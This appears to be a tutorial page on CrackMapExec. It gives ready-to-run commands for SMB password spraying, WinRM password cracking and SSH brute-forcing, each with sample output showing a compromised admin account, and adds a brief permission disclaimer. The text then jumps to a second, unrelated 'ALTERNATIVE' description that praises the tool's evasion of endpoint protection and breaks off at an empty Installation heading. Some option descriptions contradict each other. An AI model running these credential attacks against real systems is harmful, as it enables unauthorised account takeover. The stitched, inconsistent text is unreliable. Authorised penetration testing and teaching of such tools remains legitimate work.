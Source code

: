 **Common Options:**

* `-u <username>`: Specify a single username or a file containing usernames.
* `-p <password>`: Specify a single password or a file containing passwords.
* `-d <domain>`: Specify the domain to use for authentication.
* `-P <pass_file>`: Specify a file containing passwords to try.
* `-U <user_file>`: Specify a file containing usernames to try.
* `-o <output_file>`: Specify the output file for results.
* `-v`: Enable verbose output for debugging.

**Examples:**

#### 1. SMB Password Spraying
```
crackmapexec smb 192.168.1.100 -u users.txt -p passwords.txt
```
**Expected Output:**
```
SMB         192.168.1.100   445    [+] admin:password123 (Pwn3d!)
```
#### 2. WINRM Password Cracking
```
crackmapexec winrm 192.168.1.100 -u admin -p passwords.txt
```
**Expected Output:**
```
WINRM       192.168.1.100   5985   [+] admin:password123 (Pwn3d!)
```
#### 3. SSH Password Brute-Forcing
```
crackmapexec ssh 192.168.1.100 -u users.txt -p passwords.txt
```
**Expected Output:**
```
SSH         192.168.1.100   22     [+] admin:password123 (Pwn3d!)
```
**Important Considerations:**

* Always ensure you have permission to test the systems you are targeting. Unauthorized access is illegal and unethical.
* CrackMapExec can be resource-intensive, so be cautious when using it to avoid overwhelming the target system or your own system.

Remember to use CrackMapExec responsibly and within the bounds of the law.



                         ALTERNATIVE
CrackMapExec (CME) is a post-exploitation tool used for assessing the security of large Active Directory networks. It is often described as a "Swiss army knife" for penetration testing Windows/Active Directory environments. CrackMapExec is designed to be stealthy, and it leverages built-in Active Directory features and protocols to achieve its functionality, which helps it evade endpoint protection and intrusion detection systems.

### Installation
